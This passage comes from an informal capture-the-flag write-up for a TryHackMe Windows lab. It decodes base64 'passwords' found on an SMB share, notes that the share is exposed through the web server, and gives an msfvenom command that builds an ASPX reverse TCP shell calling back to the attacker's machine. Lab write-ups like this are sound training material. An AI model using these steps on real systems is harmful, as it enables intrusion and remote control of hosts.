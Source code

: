 I notice something familiar  from the list
```
 nt4wrksv
```

i goto that sharename 
``
![smblist](https://github.com/user-attachments/assets/634d91e6-7619-4bc1-a136-64db4f082bc7)


i got something special 
```
passwords.txt
```



```
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123
```

```
echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$                                                                                  
```
i try to use these credential to login 

but that didnt worked 

its a trap

The credentials are not the real way its jst used as to distract 




Then i goto the website and  Run
```
http://relevent.thm:49663/nt4wrksv/passwords.txt
```

![rel4](https://github.com/user-attachments/assets/bd11cc68-d588-4307-bcf3-8fc6614cfac2)


OOOooo

now i got a spark

## Getting a Reverse Shell

i used a shell reverse tcp file to get reverse shell

How to get that file
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Kali Ip> LPORT=53 -f aspx -o reverse.aspx

```

now u got file called 
```
reverse.aspx
```
